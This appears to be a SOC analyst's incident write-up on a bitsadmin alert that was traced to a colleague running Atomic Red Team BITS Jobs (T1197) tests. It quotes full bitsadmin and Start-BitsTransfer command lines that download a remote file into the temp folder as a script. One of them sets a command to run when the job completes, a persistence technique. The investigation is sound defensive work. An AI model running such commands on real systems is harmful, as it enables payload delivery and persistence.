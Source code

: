 - Signer: Unknown
- InitiatingProcessCommandLine: svchost.exe -k netsvcs -p -s BITS

### ASSUMPTIONS

- An adversary created suspicious BITS jobs (via bitsadmin/PowerShell) to download an executable from an external domain in an attempt to execute malicious payload indicating a delivery/persistence attempt (False)
- A SOC analyst is hunting for BITS abuse in the environment (True)


### INVESTIGATION 

On Sep 15, 2025 5:50:51 PM [UTC], the "Suspicious bitsadmin activity" alert triggered on host mydifr-win11-vm. The alret showed various BITS commands executed from CMD and PowerShell. The execution of the commands downloaded a remote file (hosted on github) eventually dropping potentially malicious PowerShell scripts in user's \Temp\ directory. The analysis of the files revealed that they contained the Atomic Red Team tests for technique [T1197 - BITS Jobs](https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md). 

Moreover, Bits download using desktopimgdownldr.exe using cmd was also observed in the logs indicating likely abuse of the BITS download flow to fetch arbitrary/malicious files.

Further investigation revealed that the host machine belongs to a SOC analyst in our team who was hunting for BITS Job abuse in our environment.


- `WHO (Account)`: The activity was executed by user Sal who is part of the SOC team.
- `WHERE (Host)`: The activity took place on one host called mydifr-win11-vm.
- `WHAT`: Multiple bitsadmin commands were executed to download malicious content from an externally hosted domain on victim's machine.
- `WHEN`: Based on the process create events, the user executed bitsadmin commands on 2025-09-15 17:50:51 UTC and downloaded potentially malicious PowerShell scripts (bitsadmin1_flag.ps1, bitsadmin2_flag.ps1) on 2025-09-15 17:52:52 UTC and 2025-09-15 18:01:22 UTC respectively. We did not observe the further execution of these scripts on the host machine.
- `WHY`: The intent behind accessing the malicious domain and downloading the files was to hunt for MITRE ATT&K technique T1197 - BITS Jobs to detect the abuse of this technique in our environment.
- `HOW`: The user knowingly executed the bitsadmin tests by Atomic Red Team to hunt for BITs abuse, check how common it is in our environment, test our detection capabilities and suggest any improvements in case of any gaps observed.

#### ACTIONS

- For investigation Device timeline was checked around the time when the acitivity occured. For this purpose checked the following log sources: 
    - **DeviceProcessEvents** 
    Three commands interesting from an attacker's point of view were executed.
        - `"cmd.exe" /c bitsadmin.exe /transfer /Download /priority Foreground https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md %temp%\bitsadmin1_flag.ps1`. It’s a command-line invocation of `bitsadmin.exe` requesting a download of a remote file with immediate/interactive transfer instead of background throttled.
        - `"powershell.exe" & {Start-BitsTransfer -Priority foreground -Source https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md -Destination $env:TEMP\bitsadmin2_flag.ps1}` does the same as above but uses PowerShell BITS cmdlet `Start-BitsTransfer` to create and start a BITS job.
        - `"cmd.exe" /c bitsadmin.exe /create AtomicBITS & bitsadmin.exe /addfile AtomicBITS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md %temp%\bitsadmin3_flag.ps1 & bitsadmin.exe /setnotifycmdline AtomicBITS C:\Windows\system32\notepad.exe NULL & bitsadmin.exe /resume AtomicBITS & ping -n 5 127.0.0.1 >nul 2>&1 & bitsadmin.exe /complete AtomicBITS`. The sequence creates a named BITS job (/create), adds a file to download from a remote URL to a local path (/addfile), configures a command to run when the job finishes (/setnotifycmdline), starts the job (/resume) so the BITS service performs the download in the background (usually via svchost), waits briefly (ping as a delay), and then marks the job complete (/complete), which triggers the configured post-download command
    - **DeviceFileEvents**
        -  Two PowerShell scripts (bitsadmin1_flag.ps1, bitsadmin2_flag.ps1) were created on the host machine but no script execution was observed.